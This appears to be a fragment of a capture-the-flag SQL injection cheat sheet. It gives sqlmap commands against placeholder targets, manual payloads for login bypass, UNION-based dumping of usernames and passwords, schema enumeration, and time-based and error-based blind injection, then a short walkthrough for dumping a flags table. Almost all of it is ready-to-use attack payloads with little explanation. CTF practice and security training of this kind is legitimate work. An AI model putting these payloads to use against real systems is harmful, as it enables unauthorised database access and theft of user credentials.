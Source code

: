 **Tools**:
```bash
# SQLmap - Automated SQL Injection
sqlmap -u "http://target.com/page?id=1" --batch --dbs
sqlmap -u "http://target.com/login" --data="user=admin&pass=admin" --dbs
sqlmap -r request.txt --dump
```

**Manual Payloads**:
```sql
-- Login Bypass
admin' OR '1'='1'--
admin' OR 1=1--
' OR '1'='1
" OR "1"="1

-- Union-based SQLi
' UNION SELECT NULL,NULL,NULL--
' UNION SELECT 1,2,3--
' UNION SELECT username,password,3 FROM users--

-- Database Enumeration
' UNION SELECT table_name,NULL FROM information_schema.tables--
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users'--

-- Extract Data
' UNION SELECT username,password FROM users--
' UNION SELECT group_concat(username,':',password) FROM users--

-- Time-based Blind SQLi
' AND SLEEP(5)--
' OR IF(1=1,SLEEP(5),0)--
' AND (SELECT * FROM (SELECT(SLEEP(5)))a)--

-- Error-based SQLi
' AND 1=CONVERT(int,(SELECT @@version))--
' AND 1=1/0--
```

**Use Case Example**:
```
Challenge: Login form vulnerable to SQLi
URL: http://ctf.com/login.php

Steps:
1. Test for SQLi: admin' OR '1'='1'-- 
2. If works → bypassed!
3. Extract data:
   sqlmap -u "http://ctf.com/login.php" --data="user=admin&pass=test" --dbs
4. Dump tables:
   sqlmap -u "..." -D ctf_db -T flags --dump
5. Get flag!
```

